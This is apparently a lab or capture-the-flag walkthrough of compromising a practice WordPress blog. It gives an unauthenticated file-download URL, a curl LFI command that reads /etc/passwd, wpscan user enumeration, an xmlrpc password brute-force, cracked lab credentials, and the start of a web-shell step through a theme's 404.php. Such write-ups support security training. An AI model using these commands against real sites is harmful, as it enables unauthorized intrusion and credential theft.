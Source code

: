 * email-subscribers (4.2.2) : [https://www.exploit-db.com/exploits/48698](https://www.exploit-db.com/exploits/48698)
* site-editor (1.1.1)
* the-event-calendar (5.1.2.1)

### Exploits

The exploit for the plugin email-subscribed is an Unauthenticated File Download on this link.

```
http://blog.inlanefreight.local/wp-admin/admin.php?page=download_report&report=users&status=all
```

* The flag is in this file.
* The exploit for the plugin site-editor is a LFI exploit.

```bash
curl http://blog.inlanefreight.local/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```

* But I can't find the flag in `/home/erika` with this vulnerability.
* I can get the users (on the website, I can see it exists at least 2 users : erica and admin).

```bash
wpscan --enumerate u --url http://blog.inlanefreight.htb
```

* The users are **admin**, **erika** & **charlie**. I can crack their passwords.

```bash
wpscan --url http://blog.inlanefreight.htb -t 20 \
  -U admin,erika,charlie \
  --password-attack xmlrpc \ 
  -P /usr/share/wordlists/rockyou.txt
```

* The credentials are `erika:010203` & `charlie:soccer13`.

#### Web Shell

Now, I'm logged as `erika` and has administrator access on the WordPress dashboard. I can update an inactive theme like `TwentySeventeen` and the file `404.php` :

<figure><img src="../../../.gitbook/assets/theme.png" alt=""><figcaption></figcaption></figure>
